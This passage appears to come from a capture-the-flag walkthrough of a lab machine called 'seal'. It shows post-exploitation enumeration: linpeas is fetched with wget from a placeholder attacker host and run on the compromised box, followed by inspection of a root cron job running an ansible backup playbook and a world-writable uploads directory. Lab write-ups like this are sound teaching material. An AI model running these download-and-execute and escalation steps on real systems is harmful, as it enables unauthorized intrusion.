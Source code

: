 Run linpeas
```
sadeli@attacker: ~$ python3 -m http.server 8000
tomcat@seal:/var/lib/tomcat9$ cd /tmp
tomcat@seal:/tmp$ wget http://attacker_ip:8000/linpeas.sh
tomcat@seal:/tmp$ chmod +x linpeas.sh
tomcat@seal:/tmp$ ./linpeas.sh | tee linpeas.txt
tomcat@seal:/tmp$ less -r /tmp/linpeas.txt
```

There appears to be two cron jobs running as root:
```
root       27938  0.0  0.0   8356  3344 ?        S    06:51   0:00  _ /usr/sbin/CRON -f
root       27939  0.0  0.0   2608   600 ?        Ss   06:51   0:00      _ /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Inspect the contents of /opt/backups/playbook/run.yml
```
tomcat@seal:/tmp$ cat /opt/backups/playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/tmp$
```

This ansible playbook makes a backup up of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` and saves it to `/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz` while preserving symlinks. View the contents of the dashboard. Everyone has full write access to the uploads directory.
```
tomcat@seal:/tmp$ cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 Oct 14 07:03 uploads
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ 
```
